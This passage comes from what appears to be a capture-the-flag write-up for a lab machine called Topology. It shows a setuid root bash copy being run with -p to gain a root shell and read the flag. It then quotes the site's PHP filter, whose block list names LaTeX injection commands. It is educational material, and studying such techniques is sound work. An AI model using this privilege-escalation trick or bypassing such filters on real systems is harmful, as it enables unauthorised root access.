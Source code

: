 Next minute, the file is there, and the user and group execute permissions are `s`, showing that it worked:

```
vdaisley@topology:/opt$ ls -l /tmp/0xdf
-rwsrwsrwx 1 root root 1183448 Sep  7 14:10 /tmp/0xdf

```

I’ll run that with `-p` to not drop privs, and get a shell as root:

```
vdaisley@topology:/opt$ /tmp/0xdf -p
0xdf-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) egid=0(root) groups=0(root),1007(vdaisley)

```

And read the second flag:

```
0xdf-5.0# cat /root/root.txt
76b6f060************************

```

## Beyond Root - Unintendeds / Filter Bypass

### equation.php

#### Interaction

The PHP on the site that handles the LaTeX is in `equation.php`. Submitting the form generates a GET request to a URL like:

![image-20231102142008301](https://0xdf.gitlab.io/img/image-20231102142008301.png)

#### Source

Looking at the source as root, if `eqn` is set, then it runs this code to filter the input:

```
$texinput = $_GET['eqn'];
# secure against common latex injections
$filterstrings = array("\\begin","\\immediate","\\usepackage","\\input","\\write","\\loop","\\include","\\@","\\while","\\def","\\url","\\href","\\end");
foreach($filterstrings as $filterstring) {
        if (stripos($texinput, $filterstring) !== FALSE) {
                $texinput="\$Illegal command detected. Sorry.\$";
                break;
        }
}
if (strlen($texinput)>=200) {
        $texinput = "\$Input too long. Sorry.\$";
}

```
